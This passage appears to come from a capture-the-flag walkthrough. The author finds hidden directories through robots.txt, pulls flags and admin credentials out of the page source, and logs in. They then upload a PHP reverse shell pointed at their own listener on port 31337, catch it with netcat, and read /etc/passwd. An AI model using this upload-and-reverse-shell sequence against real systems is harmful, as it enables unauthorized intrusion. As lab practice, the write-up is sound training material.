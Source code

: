 ```
Disallow: /uploaded_files
Disallow: /flag
```
I immediatly went to /flag and got the first flag: `The 1st flag is : {8734509128730458630012095}`.
Apart from /flag, /admin_area and /uploaded_files were real directories.
I went to /admin_area and found a page which contained the text:
`The admin area not work :)`
I looked at the source for any secrets and found the second flag, as well as login credentials:
```
	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
```
I went back to the login page and tried these credentials.
It worked, and it redirected me to a file uploader.
I looked for a reverse php shell on my own machine using: `locate php-reverse-shell.php`.
I copied one of the shells found to my ctf directory, and edited it.
I changed:
```
$ip = '127.0.0.1';
$port = 1234;
```
to:
```
$ip = '192.168.1.5';
$port = 31337;
```
I uploaded the file to the site, and listened for incoming connections using netcat:
```
nc -lp 31337
```
Now that nc was listening i went to /uploaded_files/php-reverse-shell.php and i got a shell.
I first checked to see what user i was:
```
$ whoami
www-data
```
Like i did with the previous ctf, i checked the users and groups that exist on the machine:
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
```